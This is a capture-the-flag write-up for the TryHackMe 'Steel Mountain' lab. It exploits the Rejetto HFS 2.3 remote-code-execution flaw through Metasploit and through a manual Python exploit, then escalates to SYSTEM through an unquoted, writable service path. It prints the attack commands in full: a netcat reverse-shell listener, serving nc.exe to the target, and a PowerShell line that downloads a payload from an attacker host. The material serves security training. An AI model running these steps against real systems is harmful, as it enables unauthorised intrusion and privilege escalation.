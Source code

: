 ```yaml
---
title: THM - Steel Mountain
date: 2022-07-23 22:09:00 +0200
categories: [Writeups]
tags: [tryhackme, tutorial]     # TAG names should always be lowercase
---
```



## Introduction
Steel Mountain refers to the data security firm where the protagonist Eliot tried to break into in the TV show Mr. Robot.
Opening a browser to this machine shows a simple html website showing a picture of the employee of the month.
Looking at the source code of the web page we get the answer to the first question: `<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>`


## Initial access
Running nmap TCP SYN scan shows that are a few more ports open:
```shell
$ sudo nmap -sS -T4 -Pn -p1-10000 <TARGET_IP>`
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 14:46 EDT
Nmap scan report for <TARGET_IP>
Host is up (0.025s latency).
Not shown: 9993 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy
```
Checking the other website running on TCP port 8080 reveals what seems to be an web app to browse system files.
The bottom left corner contains server information including a hyperlink [HTTP File Server 2.3](http://www.rejetto.com/hfs/) towards the open source project of the web app.

Searching Exploit-DB shows that HFS version 2.3 is vulnerable (CVE-2014-6287) to RCE.
The Metasploit Framework has the exploit included as well in `exploit/windows/http/rejetto_hfs_exec`.
Changing the module options (rhosts, rport, lhost, srvhost) results in a Meterpreter reverse TCP shell.

> Note that it took a few minutes after running the exploit until the Meterpreter Shell Prompt was ready.
{: .prompt-tip }

With the Meterpreter shell running we can start exploring. It seems the server is running Windows 2012 R2 and logged in with the Employee of the Month user as can be seen below.

```
meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
The first flag can be found on Bills' desktop `C:\Users\bill\Desktop>\user.txt`{: .filepath}


## Privilege escalation
Meterpreter has automated privilege escalation options such as using the builtin getsystem command.
However, this challenge explores different options by using the PowerUp.ps1 script provided by PowerShellMafia to find privilege escalation vectors.
After uploading the script to the victim machine it seems one service can be restarted by Bill and has an unquoted service file path as can be seen below:

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
```
The unquoted file path signifies the command is ambiguous, meaning its open to interpretation. The spaces are normally used to separate command arguments unless they are quoted.
The table below shows the order in which the command line will interpret it. Since the Iobit folder is writable by user Bill, we can create our own reverse shell payload and name it `Advanced.exe`.


| Command		| Argument 1 		| Argument 2		    | Argument 3	 	|
|:----------------------|:---------------------:|:-------------------------:|--------------------------:|
| C:\Program.exe	| Files  		| (x86)\Iobit\Advanced      | SystemCare\ASCService.exe
| C:\Program Files.exe  | (x86)\Iobit\Advanced  | SystemCare\ASCService.exe |				|
| C:\Program Files (x86)\Iobit\Advanced.exe | SystemCare\ASCService.exe |	|

Once the payload is written to `C:\Program Files (x86)\Iobit`{: .filepath}, we can start a listener on the attack machine and restart the service:
```console
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
```
We are now logged in as NT Authority/SYSTEM which is allowed to grab the root flag located at: `C:\Users\Administrator\Desktop\root.txt`{: .filepath}

## Access and Escalation without Metasploit
Although Metasploit is incredibly usefull, it is not a good practice to only rely on a single tool. Furthermore, Meterpreter is easily detected by modern AVs \[citation needed\].
The last task explores a more manual approach to hack the target machine. Once the provided exploit is downloaded we need to prepare it by adjusted the variables`ip_addr`, `local_port` with our own values of the attack machine.
As described in the comment section, we need to host a webserver while running the exploit to retrieve the nc.exe binary. 

Terminal window 1:
```shell
──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ mv 39161 exploit.py
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ chmod +x Exploit.py  
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python2 ./Exploit.py <TARGET_IP> 8080     
```

Terminal window 2:
```shell
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python3 -m http.server 80                                                                                                                                                                            1 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
<TARGET_IP> - - [24/Jul/2022 15:09:16] "GET /nc.exe HTTP/1.1" 200 -
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to <ATTACK_IP> from (UNKNOWN) <TARGET_IP>  49305
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

With the shell working we can download and run the WinPeas binary using PowerShell:
```console
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> powershell -c Invoke-WebRequest -Uri https://github.com/carlospolop/PEASS-ng/releases/download/20220724/winPEASx86.exe -Outfile "privesc.exe"

```
With the same web server running on the attack machine we can download the same reverse shell payload:
```console
powershell -c Invoke-WebRequest -Uri http://<ATTACKER_IP>/Advanced.exe -Outfile "Advanced.exe"
```
And repeat the same procedures from the last paragraph to obtain a high privileged shell!







